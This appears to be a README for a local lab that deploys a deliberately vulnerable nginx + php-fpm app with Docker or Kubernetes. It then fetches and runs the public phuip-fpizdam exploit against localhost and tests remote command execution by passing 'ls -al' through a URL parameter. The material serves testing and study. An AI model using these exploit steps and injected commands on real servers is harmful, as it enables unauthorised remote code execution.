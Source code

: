 # How-to ?

## Docker

Launch vulnerable apps :

```sh
docker-compose up -d
```

## Kubernetes

Launch minikube :

```sh
minikube start --ports 8080:8080
```

Deploy the vulnerable app :

```sh
kubectl apply -f vuln.yaml
```

## Exploit

Get the exploit and launch it against the vulnerable nginx + php-fpm

```sh
go get -v github.com/neex/phuip-fpizdam
go install github.com/neex/phuip-fpizdam
phuip-fpizdam http://localhost:8080/index.php
```

Test with a command passing a command as the `a` parameter to the hello-world page:
(for an unknown reason you might have to launch it twice)

```sh
curl "http://localhost:8080/index.php?a=ls -al"
```
